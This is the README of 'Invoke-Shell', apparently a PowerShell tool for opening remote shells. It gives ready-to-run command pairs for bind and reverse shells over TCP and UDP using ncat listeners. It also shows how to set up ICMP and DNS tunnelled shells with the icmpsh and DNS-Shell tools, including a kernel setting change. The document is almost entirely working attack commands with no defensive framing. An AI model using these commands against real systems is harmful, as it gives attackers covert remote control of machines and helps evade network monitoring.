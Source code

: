 # Invoke-Shell

A sort of simple shell which support multiple protocols. 

## TCP

**For bind shell**

```
Invoke-Shell -command "tcp listen 0.0.0.0 8080"
```

```
ncat -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -lvp 8080
```

```
Invoke-Shell -command "tcp connect 1.1.1.1 8080"
```

## UDP

**For bind shell**

```
Invoke-Shell -command "udp listen 0.0.0.0 8080"
```

```
ncat -u -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -u -lvp 8080
```

When  reverse connection accepted, type enter to make prompt display.

```
Invoke-Shell -command "udp connect 1.1.1.1 8080"
```

## ICMP

```
git clone https://github.com/inquisb/icmpsh
sysctl -w net.ipv4.icmp_echo_ignore_all=1
cd icmpsh && python icmpsh-m.py listenIP reverseConnectIP
```

```
Invoke-Shell -command "icmp connect listenIP"
```

## DNS

```
pip install dnslib
git clone https://github.com/sensepost/DNS-Shell
```

**For direct mode**

```
python DNS-Shell.py -l -d [Server IP]
Invoke-Shell -command "dns direct ServerIP Domain" 
```

**For recursive mode**

```
DNS-Shell.py -l -r [Domain]
Invoke-Shell -command "dns recurse Domain"
```
